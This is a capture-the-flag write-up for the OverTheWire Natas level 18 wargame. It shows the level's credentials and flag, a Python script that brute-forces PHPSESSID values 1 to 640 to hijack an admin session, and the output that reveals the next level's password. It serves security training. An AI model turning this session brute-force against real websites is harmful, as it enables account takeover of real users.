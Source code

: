 # Natas18

*	user: `natas18`
*	pass: `xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`
*	url: `http://natas18.natas.labs.overthewire.org`
*	flag: `4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs`

## Procedure

1.	In source code, directive

		$maxid = 640; // 640 should be enough for everyone

	suggests us that `PHPSESSID` may be at least `640`. This number is
	sufficiently low to allow a brute-force attack against `PHPSESSID`
	variable in order to perform [Session Hijacking](http://en.wikipedia.org/wiki/Session_hijacking).

2.	A simple Python script (see [natas18.py](./scripts/natas18.py)) will
	do it on behalf of us

		import requests

		target = 'http://natas18.natas.labs.overthewire.org'
		auth = ('natas18','xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')
		params = dict(username='admin', password='s3cr3t')
		cookies = dict()

		max_s_id = 640
		s_id = 1
		while s_id <= max_s_id:
			print "Trying with PHPSESSID = " + str(s_id)
			cookies = dict(PHPSESSID=str(s_id))
			r = requests.get(target, auth=auth, params=params, cookies=cookies)
			if "You are an admin" in r.text:
				print r.text
				break
			s_id += 1

	This is the result

		$ python natas18.py
		Trying with PHPSESSID = 1
		Trying with PHPSESSID = 2
		...
		Trying with PHPSESSID = 45
		Trying with PHPSESSID = 46
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
		<body>
		<h1>natas18</h1>
		<div id="content">
		You are an admin. The credentials for the next level are:<br><pre>Username: natas19
		Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		</body>
		</html>
